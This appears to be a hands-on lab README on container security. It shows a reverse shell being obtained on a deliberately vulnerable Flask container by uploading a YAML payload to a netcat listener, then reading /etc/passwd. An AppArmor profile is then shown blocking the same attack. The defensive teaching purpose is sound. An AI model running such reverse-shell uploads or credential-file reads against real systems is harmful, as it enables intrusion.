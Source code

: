 # **AppArmor**

### *Runtime Protection for Container Workloads*

-------

#### Step 1:

* Navigate to the `AppArmor` directory on the provisioned server.

```
cd /root/container-training/Container/AppArmor/
```

* Multiplex terminal session with `tmux` and split panes horizontally.

```
tmux

tmux split-window -v
```

-------

#### Step 2:

* Go to the lower panel and start a `netcat` listner

```
# Switches to the lower panel
ctrl + b + (lower arrow key) 

nc -l 1337
```

* Go to the upper pane and launch the `abhaybhargav/vul_flask` container

```
# Switches to the upper pane
ctrl + b + (upper arrow key)

docker run -d -p 5050:5050 abhaybhargav/vul_flask
```

-------

#### Step 3:

* Fetch the Public IP Address of the provisioned server

```
serverip
```

* Edit `reverse_shell.yml` by substituting `<IP>` with the Public IP Address fetched in the previous step

```
sed -i -e 's/Server_IP_Here/<IP>/g' reverse_shell.yml
```

**EXAMPLE**: `sed -i -e 's/Server_IP_Here/192.168.1.1/g' reverse_shell.yml`

* Confirm if `reverse_shell.yml` has been edited.

```
cat reverse_shell.yml
```

-------

#### Step 4:

* Upload the edited `reverse_shell.yml` to the `abhaybhargav/vul_flask` application running on port `5000`

```
http --form POST http://<IP>:5050/yaml_hammer file@reverse_shell.yml submit=submit
```

**EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

* If the command has successfully executed, the reverse tcp shell in the lower panel should be working. To run commands on the shell, switch to the lower panel.

```
# Switches to the lower panel
ctrl + b + (lower arrow key)
```

* With a reverse-shell on the container, commands can be run on it.

```
ls

cat /etc/passwd

cat app.py
```

* Go back to the upper pane and stop all containers. Running this will terminate the reverse-shell.

```
# Switches to the upper pane
ctrl + b + (upper arrow key)

clean-docker
```

------

### *Let's try and prevent the same attack using `Apparmor`*

----

#### Step 5:

* Load the apparmor profile to the provisioned server

```
apparmor_parser -r -W vul-flask-armor
```

* Launch the same `abhaybhargav/vul_flask` container, with the apparmor profile attached.

```
docker run --rm -d -p 5050:5050 --security-opt apparmor=vul-flask-armor abhaybhargav/vul_flask
```

------

#### Step 6:

* Switch to the lower panel and setup the netcat listner

```
# Switches to the lower panel
ctrl + b + (lower arrow key) 

nc -l 1337
```

* In the upper panel, upload the `reverse_shell.yml` file similar to **Step 4**

```
http --form POST http://<IP>:5050/yaml_hammer file@reverse_shell.yml submit=submit
```

**EXAMPLE**: `http --form POST http://192.168.1.1:5050/yaml_hammer file@reverse_shell.yml submit=submit`

#####  **It can be observed that the reverse-shell was unsuccessful**

------

#### Step 7:

* Fetch the `Container ID` and try to `exec` into the `abhaybhargav/vul_flask` container.

```
docker ps

docker exec -ti <CONTAINER ID> bash
```

**EXAMPLE**: `docker exec -ti fc4e7ea5e6f3 bash`

* Inside the container environment, try to create/access files

```
cat /etc/passwd

touch shell.py

touch /tmp/shell.py
```

#####  **The reverse-shell and the commands do not work because we enabled the runtime security profile with AppArmor**

-----

#### Step 8:

* Exit from the `tmux` sessions and stop all the containers

```
clean-docker
```

---------

### Reading Material/References:
